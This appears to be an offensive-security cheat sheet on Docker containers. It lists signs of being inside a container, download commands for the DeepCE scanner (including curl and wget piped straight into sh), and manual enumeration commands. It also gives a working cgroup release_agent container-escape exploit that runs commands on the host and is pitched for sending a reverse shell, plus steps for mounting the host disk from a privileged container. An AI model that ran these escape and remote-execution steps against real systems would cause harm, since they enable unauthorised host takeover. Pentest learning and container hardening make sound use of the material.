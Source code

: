 # Docker Container

## Am I in a container?

* Hostname is something like `dcdd01356172` or a similar hex string
* root folder contains `.dockerenv` file&#x20;
* executing `cat /proc/1/cgroup` returns docker strings
* There are few processes running and none of them are kernel spawned
* Some default \*nix commands such as wget, ps, ifconfig, ip are missing

## DeepCE

Automated tool for vulnerability scanning inside a Docker container.

See [https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce)

### Download

```
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh

#python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh

#load in memory
wget -O - https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh | sh
```

## Manual Enumeration

### OS info

```
cat /etc/issue
cat /etc/*-release
uname -a
```

### Running processes

```
readlink -f /proc/*/exe    #link to executable file
cat /proc/*/comm           #console friendly process name (not always available)
```

### Partitions

```
cat /etc/fstab
fdisk -l
```

### Network

```
cat /proc/net/tcp
cat /proc/net/*
```

All IP addresses are printed as little-endian hexadecimal strings. For example:

IP address: `020011AC --> AC.11.00.02 --> 172.16.00.02`

Gateway mask: `0000FFFF --> FF.FF.00.00 --> 255.255.00.00`

## Container escape

By executing this exploit it's possible to execute commands on the host machine, allowing us to enumerate the host or send a reverse shell from the actual host to our machine.

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "<command> > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## Mount /dev/sda1

If the container is privileged, it is possible to mount the physical machine's partition from within the container, thus allowing us to manipulate files in the actual host.

```
fdisk -l     check if external drives are visible

mkdir /tmp/sda
mount /dev/sda1 /tmp/sda
```

